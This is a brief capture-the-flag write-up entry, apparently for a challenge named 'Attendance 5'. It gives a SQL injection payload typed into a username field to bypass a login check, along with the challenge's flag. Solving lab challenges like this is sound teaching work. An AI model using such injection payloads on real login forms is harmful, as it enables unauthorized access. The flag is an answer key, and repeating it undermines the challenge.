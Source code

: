 # Attendance 5 - 4 Oct [1 points] (39 solves)
Payload: `' or 3>2 LIMIT 2-- ` as username

flag: `flag{w0w_h0w_ar3_u_d01ng_1n_y0ur_m1dt3rms?}`